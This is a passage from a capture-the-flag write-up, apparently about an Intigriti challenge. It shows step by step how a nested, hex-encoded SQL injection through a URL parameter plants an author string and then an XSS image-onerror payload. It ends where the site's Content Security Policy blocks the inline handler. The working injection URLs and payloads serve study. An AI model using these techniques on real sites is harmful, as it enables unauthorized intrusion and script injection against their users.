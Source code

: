 Let's place a string in the `2` column and see if we can inject an author.
```
0 union select 1,"h43z",3 => 0x3020756E696F6E2073656C65637420312C226834337A222C33
https://challenge-0722.intigriti.io/challenge/challenge.php?month=9999%20union%20select%200,0,0,0x3020756E696F6E2073656C65637420312C226834337A222C33,0
```
Empty!? Where has our injected author `h43z` gone? We remember, we have to be 
careful. This is like Incecption, the movie. We are preparing our sql injection already
within an injection. The encoding get's peeled away after the first query and
then we again have an `"` in there which we know does the application not like.

To fix this we will have to encode the string first. Place it then in the second
injection, encode that whole thing again.

```
h43z   => 0x6834337A
0 union select 1,0x6834337A,3 => 0x3020756E696F6E2073656C65637420312C307836383334333337412C33
https://challenge-0722.intigriti.io/challenge/challenge.php?month=9999%20union%20select%200,0,0,0x3020756E696F6E2073656C65637420312C307836383334333337412C33,0
```

Awesome! We injected an custom author string. Let's replace it with an actual
xss payload.

```
<img/src/onerror=alert(1>   
=> 0x3C696D672F7372632F6F6E6572726F723D616C65727428313E

0 union select 1,0x3C696D672F7372632F6F6E6572726F723D616C65727428313E,3 
=> 0x3020756E696F6E2073656C65637420312C307833433639364436373246373337323633324636463645363537323732364637323344363136433635373237343238333133452C33

https://challenge-0722.intigriti.io/challenge/challenge.php?month=9999%20union%20select%200,0,0,0x3020756E696F6E2073656C65637420312C307833433639364436373246373337323633324636463645363537323732364637323344363136433635373237343238333133452C33,0

```
Still no popup?!! We check the source code. And see this.
```
<p class="blog-post-meta">0 by 
  <a href="#">
    <img src="" onerror="alert(1">
  </a>
</p>
```
The rendering into an actual image tag worked. So what's going on. Let's open
the dev tools.

```
Refused to execute inline event handler because it violates the following Content Security Policy directive: "default-src 'self' *.googleapis.com *.gstatic.com *.cloudflare.com". Either the 'unsafe-inline' keyword, a hash ('sha256-...'), or a nonce ('nonce-...') is required to enable inline execution. Note that hashes do not apply to event handlers, style attributes and javascript: navigations unless the 'unsafe-hashes' keyword is present. Note also that 'script-src' was not explicitly set, so 'default-src' is used as a fallback.
```
No we understand why no onerror handler was triggered. The website has a CSP that
prohibits any inline execution.
